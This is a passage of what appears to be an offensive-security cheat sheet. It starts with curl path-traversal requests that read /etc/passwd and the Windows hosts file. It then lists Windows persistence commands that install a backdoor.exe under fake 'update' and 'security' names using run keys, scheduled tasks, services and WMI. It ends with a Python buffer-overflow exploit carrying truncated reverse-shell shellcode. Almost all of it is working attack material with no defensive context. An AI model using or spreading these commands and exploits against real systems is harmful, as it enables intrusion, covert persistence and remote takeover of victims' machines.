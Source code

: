 ```bash
curl "$TARGET/page.php?file=../../../etc/passwd"
curl "$TARGET/page.php?file=../../../windows/system32/drivers/etc/hosts"
```

### 6. Post-Exploitation Persistence
```powershell
# Windows persistence techniques
# Registry run key persistence
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "SecurityUpdate" /t REG_SZ /d "C:\Windows\Temp\backdoor.exe"

# Scheduled task persistence
schtasks /create /tn "WindowsUpdate" /tr "C:\Windows\Temp\backdoor.exe" /sc daily /st 09:00

# Service persistence
sc create "WindowsSecurityService" binpath= "C:\Windows\Temp\backdoor.exe" start= auto
sc start "WindowsSecurityService"

# WMI event subscription
wmic /namespace:"\\root\subscription" PATH __EventFilter CREATE Name="ProcessFilter", EventNameSpace="root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM Win32_VolumeChangeEvent WHERE EventType = 2"
```

### 7. Buffer Overflow Exploitation Framework
```python
#!/usr/bin/env python3
import socket
import struct

# Target service details
target_ip = "192.168.1.100"
target_port = 9999

# Buffer overflow parameters
offset = 1978
return_address = 0x625011af  # JMP ESP address
nop_sled = b"\x90" * 16

# Shellcode (reverse shell)
shellcode = (
    b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
    b"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
    # ... complete shellcode here
)

# Craft exploit payload
buffer = b"A" * offset
buffer += struct.pack("<I", return_address)
buffer += nop_sled
buffer += shellcode

# Send exploit
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))
    s.send(buffer)
    s.close()
    print("Exploit sent successfully")
except Exception as e:
    print(f"Error: {e}")
```
